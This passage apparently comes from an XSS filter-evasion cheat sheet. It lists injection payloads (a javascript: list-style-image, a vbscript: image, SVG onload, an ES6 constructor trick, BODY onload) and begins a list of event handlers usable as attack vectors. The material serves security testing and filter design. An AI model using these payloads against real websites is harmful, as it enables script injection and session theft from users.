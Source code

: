 ### List-style-image

This esoteric attack focuses on embedding images for bulleted lists. It will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful XSS vector:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

### VBscript in an Image

```html
<IMG SRC='vbscript:msgbox("XSS")'>
```

### SVG Object Tag

```js
<svg/onload=alert('XSS')>
```

### ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

### BODY Tag

This attack doesn't require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack. Dan Crowley has noted that you can put a space before the equals sign (`onload=` != `onload =`):

```html
<BODY ONLOAD=alert('XSS')>
```

#### Attacks Using Event Handlers

The attack with the BODY tag can be modified for use in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The [Dottoro Web Reference](http://help.dottoro.com/) also has a nice [list of events in JavaScript](http://help.dottoro.com/ljfvvdnm.php).

- `onAbort()` (when user aborts the loading of an image)
- `onActivate()` (when object is set as the active element)
- `onAfterPrint()` (activates after user prints or previews print job)
- `onAfterUpdate()` (activates on data object after updating data in the source object)
- `onBeforeActivate()` (fires before the object is set as the active element)
- `onBeforeCopy()` (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the `execCommand("Copy")` function)
- `onBeforeCut()` (attacker executes the attack string right before a selection is cut)
- `onBeforeDeactivate()` (fires right after the activeElement is changed from the current object)
- `onBeforeEditFocus()` (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
- `onBeforePaste()` (user needs to be tricked into pasting or be forced into it using the `execCommand("Paste")` function)
- `onBeforePrint()` (user would need to be tricked into printing or attacker could use the `print()` or `execCommand("Print")` function).
- `onBeforeUnload()` (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
- `onBeforeUpdate()` (activates on data object before updating data in the source object)
- `onBegin()` (the onbegin event fires immediately when the element's timeline begins)
- `onBlur()` (in the case where another popup is loaded and window looses focus)
- `onBounce()` (fires when the behavior property of the marquee object is set to "alternate" and the contents of the marquee reach one side of the window)
